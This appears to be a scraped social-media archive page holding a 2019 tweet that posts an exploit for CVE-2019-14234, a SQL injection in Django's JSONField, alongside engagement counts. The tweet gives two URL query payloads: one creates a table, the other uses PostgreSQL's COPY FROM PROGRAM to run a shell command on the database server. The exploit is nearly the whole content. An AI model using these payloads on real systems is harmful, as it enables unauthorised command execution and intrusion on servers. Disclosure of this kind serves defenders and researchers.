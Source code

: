 <td><img src="pictures/15669ac5c6c15ce32ca5ef7f26a29e13353517ee632e570f197ec981f232b207.jpg" alt="15669ac5c6c15ce32ca5ef7f26a29e13353517ee632e570f197ec981f232b207.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1159261425279234048 _at 2019-08-08, 00:33:56_**
<blockquote>
EXP for CVE-2019-14234 Django JSONField SQL Injection  
Step1:

?data__breed'%3f'a') OR 1%3d2 %3bCREATE table cmd_exec(cmd_output text) -- OR  ....

Step2:
?data__breed'%3f'a') OR 1%3d2 %3bCOPY cmd_exec FROM PROGRAM 'ping https://t.co/QSKdevS9Dt' -- OR  ... https://t.co/YMWa7GNUl2
</blockquote>
